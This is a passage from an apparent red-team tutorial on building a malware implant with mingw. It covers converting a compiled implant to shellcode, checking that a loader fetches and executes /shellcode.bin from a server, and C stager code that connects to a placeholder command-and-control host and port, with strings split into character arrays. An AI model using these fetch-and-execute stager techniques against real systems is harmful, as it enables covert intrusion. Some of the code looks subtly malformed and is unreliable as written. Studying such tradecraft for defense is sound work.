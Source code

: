 ```c
output_bin = input_dll.replace('.dll', '.bin')
```

to

```c
output_bin = input_dll.replace('.exe', '.bin')
```

Or you can duplicate the line so that it will check for both .dll and .exe. Or you can compile the implant to a DLL and specify the -shared flag to mingw. Either way, we should now have our compiled implant converted to shellcode. Once we verify that this works, we can go ahead and run our initial loader again. We should expect to see a request for /shellcode.bin immediately followed by a request to /success. This means that our full implant has successfully been fetched and executed.

![../images/Dynamic_payload_generation_with_mingw/Untitled%205.png](../images/Dynamic_payload_generation_with_mingw/Untitled%205.png)

And in the tab that we ran our shellcode in we should see the output from the full implant.

![../images/Dynamic_payload_generation_with_mingw/Untitled%206.png](../images/Dynamic_payload_generation_with_mingw/Untitled%206.png)

You may notice that I ran the shellcode.exe executable instead of injecting it. I just find this easier for testing purposes since we already validated that running objcopy will pull out a functional shellcode.

Note: You could also just use sRDI to convert your stager into shellcode as well, but I liked the idea of writing and compiling my own.

The last thing we'll do is replace a few lines in both the stager and the implant with placeholder variables. This will make our lives easier when we want to replace them with dynamic values.

In our stager:

```c
char sitename[] = { '%SITENAME%', 0 };
    int port = %PORT%;
    HINTERNET hConnect = _InternetConnectA(hInternet, sitename, port, NULL, NULL, INTERNET_SERVICE_HTTP, 0, NULL);
    if (hConnect == NULL) {
        return 1;
    }
    const char* acceptTypes[] = { '*','/','*', NULL };
    char method[] = { 'G','E','T',0 };
    char site_param[] = { '%SITEPARAM%',0 };
```

